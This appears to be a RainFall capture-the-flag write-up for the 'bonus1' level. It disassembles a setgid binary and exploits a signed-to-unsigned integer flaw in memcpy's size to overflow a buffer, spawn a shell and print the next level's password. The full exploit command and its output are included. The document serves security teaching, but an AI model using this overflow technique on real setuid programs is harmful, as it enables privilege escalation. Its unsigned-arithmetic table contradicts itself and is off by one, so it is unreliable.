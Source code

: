 # bonus1

## Hint

When we log into the machine as `bonus1`, we notice a binary:

```shell-session
bonus1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus2 users 5043 Mar  6  2016 bonus1
```

We notice that the `guid` bit is set, so the executable gets the rights of its group owners granted when it is executed, and conveniently enough the group in question is our target for the current level.

The first run of the binary is resulting a Segmentation Fault.

```shell-session
bonus1@RainFall:~$ ./bonus1
Segmentation fault (core dumped)
```

And any arguments pass to the binary doesn't seems to do anything.

```shell-session
bonus1@RainFall:~$ ./bonus1 0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
bonus1@RainFall:~$
```

Lets dig into it

## gdb

Let's find all the functions in the binary:

```gdb
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
0x080482d4  _init
0x08048320  memcpy
0x08048320  memcpy@plt
0x08048330  __gmon_start__
0x08048330  __gmon_start__@plt
0x08048340  __libc_start_main
0x08048340  __libc_start_main@plt
0x08048350  execl
0x08048350  execl@plt
0x08048360  atoi
0x08048360  atoi@plt
0x08048370  _start
0x080483a0  __do_global_dtors_aux
0x08048400  frame_dummy
0x08048424  main
0x080484b0  __libc_csu_init
0x08048520  __libc_csu_fini
0x08048522  __i686.get_pc_thunk.bx
0x08048530  __do_global_ctors_aux
0x0804855c  _fini
```

No other functions are called by the binary.

And the variables ?

```gdb
gdb-peda$ info variables
All defined variables:

Non-debugging symbols:
0x08048578  _fp_hw
0x0804857c  _IO_stdin_used
0x08048680  __FRAME_END__
0x08049684  __CTOR_LIST__
0x08049684  __init_array_end
0x08049684  __init_array_start
0x08049688  __CTOR_END__
0x0804968c  __DTOR_LIST__
0x08049690  __DTOR_END__
0x08049694  __JCR_END__
0x08049694  __JCR_LIST__
0x08049698  _DYNAMIC
0x08049764  _GLOBAL_OFFSET_TABLE_
0x08049784  __data_start
0x08049784  data_start
0x08049788  __dso_handle
0x0804978c  completed.6159
0x08049790  dtor_idx.6161
```

Neither.


Ok let's look at `main`

```gdb
gdb-peda$ pdisas main
Dump of assembler code for function main:
   0x08048424 <+0>:	push   ebp
   0x08048425 <+1>:	mov    ebp,esp
   0x08048427 <+3>:	and    esp,0xfffffff0                     <-- allign the stack to 16 bytes boundaries
   0x0804842a <+6>:	sub    esp,0x40                           <-- 64 Bytes allocated.
   0x0804842d <+9>:	mov    eax,DWORD PTR [ebp+0xc]            <-- load *argv[]
   0x08048430 <+12>:	add    eax,0x4                            <-- eax = &argv[1]
   0x08048433 <+15>:	mov    eax,DWORD PTR [eax]                <-- eax = argv[1]
   0x08048435 <+17>:	mov    DWORD PTR [esp],eax                <-- prepare argv[1] as argument to atoi()
   0x08048438 <+20>:	call   0x8048360 <atoi@plt>               <-- call atoi(argv[1])
   0x0804843d <+25>:	mov    DWORD PTR [esp+0x3c],eax           <-- store return of atoi(argv[1])
   0x08048441 <+29>:	cmp    DWORD PTR [esp+0x3c],0x9           <-- compare return of atoi(argv[1]) with 9
   0x08048446 <+34>:	jle    0x804844f <main+43>                <-- if atoi(argv[1]) <= 9, jump to main+43
   0x08048448 <+36>:	mov    eax,0x1                            <-- set eax to 1
   0x0804844d <+41>:	jmp    0x80484a3 <main+127>               <-- jump to main+127 (return(1))
   0x0804844f <+43>:	mov    eax,DWORD PTR [esp+0x3c]           <-- load atoi(argv[1])
   0x08048453 <+47>:	lea    ecx,[eax*4+0x0]                    <-- set ecx to atoi(argv[1]) * 4
   0x0804845a <+54>:	mov    eax,DWORD PTR [ebp+0xc]            <-- load char *argv[]
   0x0804845d <+57>:	add    eax,0x8                            <-- set eax to argv[2]
   0x08048460 <+60>:	mov    eax,DWORD PTR [eax]                <-- load char *argv[2]
   0x08048462 <+62>:	mov    edx,eax                            <-- set edx to eax
   0x08048464 <+64>:	lea    eax,[esp+0x14]                     <-- load char buffer[40];
   0x08048468 <+68>:	mov    DWORD PTR [esp+0x8],ecx            <-- set 3rd argument to i *= 4
   0x0804846c <+72>:	mov    DWORD PTR [esp+0x4],edx            <-- set 2nd argument to argv[2]
   0x08048470 <+76>:	mov    DWORD PTR [esp],eax                <-- set 1st argument to buffer
   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>             <-- call memcpy(buffer, argv[2], i)
   0x08048478 <+84>:	cmp    DWORD PTR [esp+0x3c],0x574f4c46    <-- compare i with '1464814662'
   0x08048480 <+92>:	jne    0x804849e <main+122>               <-- if i != '1464814662', jump to main+122
   0x08048482 <+94>:	mov    DWORD PTR [esp+0x8],0x0            <-- set 3rd argument to 0
   0x0804848a <+102>:	mov    DWORD PTR [esp+0x4],0x8048580   <-- set 2nd argument to "sh"
   0x08048492 <+110>:	mov    DWORD PTR [esp],0x8048583       <-- set 1st argument to "/bin/sh"
   0x08048499 <+117>:	call   0x8048350 <execl@plt>           <-- call execl("/bin/sh", "sh", 0)
   0x0804849e <+122>:	mov    eax,0x0                         <-- set eax to 0
   0x080484a3 <+127>:	leave
   0x080484a4 <+128>:	ret                                    <-- return(0)
End of assembler dump.
```

## How to exploit ?

Everythings looks like to happen in the `main` function.

Ok, se we clearly can see that the `main` function is calling `execl` with the `/bin/sh` and `sh` arguments.

But how can we get there.

Our first argument to this binary is passed to `i = atoi(argv[1])`. Then if our first argument is at most equal to `9`. We can go further.

After this check, our value is multiplied by `4`.

So `i` become `i * 4`.

Then we have `memcpy(buffer, argv[2], i)`. We pass our second argument to the binary and it is copied bytes per bytes to the `buffer`.

The `buffer` can hold at most `40` bytes.

We cleary have a buffer overflow potential here. But from a simple mathematical analysis it is not possible.

In deed, to get a buffer overflow, we have to pass more than `40` bytes to the `memcpy()` function. But to get there we can at most give: `9 * 4` = `36 bytes` to `memcpy()`.

After a bit digging we can see that a integer conversion occurs there. We receive a signed integer from the `atoi()` function. But we pass a unsigned integer to memcpy().

So we must ensure to have a correct value for the `i` variable as a signed integer to by pass the first check and trigger a buffer overflow.

## Exploit

Since the integer is at the higher memory address than the buffer, we can easily overflow this address and pass the condition for i = 1464814662.

So technichaly we need more than 40 bytes to overflow the buffer and be abble to overwrite the integer.

But how can we pass a positive value to memcpy with a negative integer as input ?

We know that `uint_max = 2^32 - 1 = 4294967295`. So if we add `1` to `4294967295` we get 0 when casting it to a unsigned integer.

Let's divide by `4` to get the integer.

`4294967296 / 4 = 1073741824`. If we multiple `(unsigned int)(-1073741824 * 4)` we have 0.

We then have our a negative integer that pass the crash we can now find our next segfault deeper in the executable. We will find wich value is causing a buffer overflow with `memcpy` now.
Let's find the segfault from there.


```
(unsigned int)(-1073741824 * 4) = 4.
(unsigned int)(-1073741823 * 4) = 8.
(unsigned int)(-1073741822 * 4) = 12.
(unsigned int)(-1073741821 * 4) = 16.
(unsigned int)(-1073741820 * 4) = 20.
(unsigned int)(-1073741819 * 4) = 24.
(unsigned int)(-1073741818 * 4) = 28.
(unsigned int)(-1073741817 * 4) = 32.
(unsigned int)(-1073741816 * 4) = 36.
(unsigned int)(-1073741815 * 4) = 40.
(unsigned int)(-1073741814 * 4) = 44.
(unsigned int)(-1073741813 * 4) = 48.
(unsigned int)(-1073741812 * 4) = 52.
(unsigned int)(-1073741811 * 4) = 56.
(unsigned int)(-1073741810 * 4) = 60.
(unsigned int)(-1073741809 * 4) = 64.  <-- segfault !
```

```
bonus1@RainFall:~$ ./bonus1 -1073741809
Segmentation fault (core dumped)
```

We can now overwrite the integer with an exact value and a padding of 40 bytes. No need shell code we know exactly where the integer is located. The rest will follow.

```
bonus1@RainFall:~$ ./bonus1 -1073741809 $(python -c "print '\x90' * 40 + '\x46\x4c\x4f\x57'")
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
